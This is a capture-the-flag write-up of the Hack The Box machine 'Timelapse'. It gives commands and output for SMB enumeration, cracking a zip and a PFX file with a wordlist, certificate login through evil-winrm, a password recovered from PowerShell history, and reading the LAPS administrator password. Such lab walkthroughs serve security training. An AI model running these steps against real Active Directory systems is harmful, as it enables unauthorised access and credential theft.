 ```yaml
---
title: "Timelapse Hackthebox writeup"
header:
  teaser: "/assets/images/timelapse/20220820143425.png"
tags: ["Hackthebox", "Active-directory", "LAPS", "pfx"]
date: 2022-08-20T00:49:18+18:08
toc: true
draft: false
categories:
  - Windows Machines
ribbon: green
---
```


In this Box we are against a windows machine has the active directory service installed on it , we can list files on smb shares and access some shared folder to find a backup.zip file which contains a pfx file for a user on the domain , we can also find some hints about LAPS. after extracting the key and certificate from the pfx file we can login using WinRM. then checking the powershell history we can see password for another user which is a memeber of the LAPS_READERS Group so the other user can read the administrator password in clear text

<!--more-->

## Scanning

```bash
nmap -Pn -A -T4 10.10.11.152 -oN nmap.intial
```

Output

```bash
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-20 21:08:49Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h59m58s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2022-08-20T21:09:00
|_  start_date: N/A
```

we can see this machine has the Active directory service installed on it because of the DNS service and the kpassword5 ports are open

if we make a full port scan we will get :

```bash
5986/tcp  open  wsmans
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49696/tcp open  unknown
52713/tcp open  unknown
```

port `5986` is open which is the WinRm port which we can use to login to the box using `evil-winrm` tool , so we maybe use it latter.

## Enumeration

We can start Enumerating the smb service to check if we have access without providing passwords :

```cmd
smbclient -L 10.10.11.152
Enter WORKGROUP\kali's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	Shares          Disk
	SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

we can list the folders without any password , we can go check non defaults folders like `Shares`

```cmd
smbclient //10.10.11.152/Shares
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021
```

we can download the files in both of these directories to check if there is anything helpful

```bash
-rw-r--r-- 1 kali kali 102K Aug 20 09:16 LAPS_Datasheet.docx
-rw-r--r-- 1 kali kali 627K Aug 20 09:16 LAPS_OperationsGuide.docx
-rw-r--r-- 1 kali kali  71K Aug 20 09:16 LAPS_TechnicalSpecification.docx
-rw-r--r-- 1 kali kali 1.1M Aug 20 09:16 LAPS.x64.msi
-rw-r--r-- 1 kali kali 2.6K Aug 20 09:15 winrm_backup.zip
```

From the files we have found we can assume the machine has LAPS (Local Administrator Password Solution) installed on it to protect administrator password.

_LAPS function is to set a different, random password for the common local administrator account on every computer in the domain_

and we have `winrm_backup.zip` which we can try to open but will find it is protected with a password , we can try crack it :

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u  winrm_backup.zip

PASSWORD FOUND!!!!: pw == supremelegacy
```

By Extracting the zip file we will get `legacyy_dev_auth.pfx`

_The . pfx file, which is in a PKCS#12 format, contains the SSL certificate (public keys) and the corresponding private keys_

Searching for it we will come across [this](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) page which explains how to get the key,cert from the pfx file. But there is a password required in the steps

![error](/assets/images/timelapse/20220820153550.png)

we can use `crackpkcs12` tool to get the password we need

![error](/assets/images/timelapse/20220820153738.png)

```bash
crackpkcs12 legacyy_dev_auth.pfx -d /usr/share/wordlists/rockyou.txt

Dictionary attack - Starting 8 threads

*********************************************************
Dictionary attack - Thread 8 - Password found: thuglegacy
*********************************************************
```

now we can extract the key and the certificate we want

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx  -nocerts -out leg.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out leg.crt
```

## Foothold

We can Authenticate to the box using the key and the cert we have generated from the pfx file . as the we have said before we can use `evil-winrm` to login so let's try :

```bash
evil-winrm -u legacy -c leg.crt -k leg.key -i 10.10.11.152 -S
```

![error](/assets/images/timelapse/20220820155138.png)

we can upload `Winpeas` to see if there is any low hanging fruits first :

```powershell
*Evil-WinRM* PS C:\Users\legacyy\Favorites> upload winPEAS.bat
```

and we can find under the PowerShell history `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

```bash
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

We can see password `E3R$Q62^12p7PLlC%KWaxuaV` and the user `svc_deploy` ,we can try to login with that user:

```bash
evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'  -i 10.10.11.152 -S
```

## Privilege escalation

After logging in successfully with that user, we can think of the LAPs we have found earlier maybe it was there for a reason.

Reading [here](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps) we can check if it is installed using :

```bash
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
```

and it is indeed installed , reading about LAPS Attributes we can see this , maybe the `ms-Mcs-AdmPwd` is misconfigured

![error](/assets/images/timelapse/20220820162732.png)

**The Misconfiguration :**

![error](/assets/images/timelapse/20220820163538.png)

```bash
Get-ADComputer -Filter * -Properties 'ms-Mcs-AdmPwd' | Where-Object { $_.'ms-Mcs-AdmPwd' -ne $null } | Select-Object 'Name','ms-Mcs-AdmPwd'
```

![error](/assets/images/timelapse/20220820162833.png)

And we have access to the administrator password in clear text ! , we can try to login with the administrator password

```bash
evil-winrm -u administrator -p '1M-btm[l8iH]K{[OigWn3zV%'  -i 10.10.11.152 -S
```

and we are in as administrator

![error](/assets/images/timelapse/20220820163026.png)

### pwned

